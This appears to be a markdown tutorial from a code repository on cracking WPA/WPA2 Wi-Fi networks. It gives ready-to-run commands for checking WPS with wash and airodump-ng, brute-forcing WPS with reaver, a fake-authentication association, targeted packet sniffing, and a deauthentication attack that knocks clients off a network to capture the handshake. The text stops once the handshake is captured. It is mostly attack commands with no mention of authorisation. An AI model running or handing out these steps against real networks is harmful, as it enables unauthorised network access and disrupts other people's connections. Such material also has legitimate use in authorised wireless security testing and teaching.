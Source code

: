 # WPA & WPA-2 Cracking using WPS Feature

First we need to check if the network has WPS enabled
 ```bash
wash --interface wlan0
 ``` 
In case wash command is not workding use
 ```bash
airodump-ng --wps wlan0
 ``` 
If this command does not work we can simply use **airodump-ng** to get the information we need
and just make a try for the attack

1. we need to run a reaver command which will do tha WPS cracking for us
 ```bash
reaver --bssid <NetworkMAC> --channel <NetworkChannel> --interface <InterfaceName> -vvv --no-associate
 ``` 
> argument -vvv is to see as much information as possible
> argument --no-associate is to tell reaver we don't want to associate with the network because we are going to do it manually
2. Once the reaver command is launch we need to associate to the network using the **fakeauth** attack
 ```bash
aireplay-ng --fakeauth 30 -a <NetworkMac> -h <InterfaceMac> <InterfaceName>
 ``` 

# WPA & WPA2 Cracking Using HandShake

## HandShake
When we connect to a wifi using it's password router make an handshake with the device.

Handshake does not tells the the password for the network but can tell if the password is right or wrong.

## How to capture a handshake
1. Start **targeted packet sniffing** using ariodump-ng
> Keep one thing in mind your adopter should be in **Monitor Mode** So you should run Monitor Mode file first
> ```bash
> airodump-ng --bssid <mac of adoptor> --channel <channel of adoptor> --write <file name to write> <adoptor name>
> ``` 
Now without shutting down the process

Open another terminal 
2. Do a **de-auth attack** to any of the devices connected to the **network**
> Command to launch a **de-auth attack**
> ```bash
> aireplay-ng --deauth [#deauthPackets] -a [NetworkMac] -c [TargetMac] [Interface]
> ``` 
> use deauthPackets = 4 to send deauth attack for less time

### You can find Handshake on the airodum-ng terminal
now you can close the process because the handshake has been captured
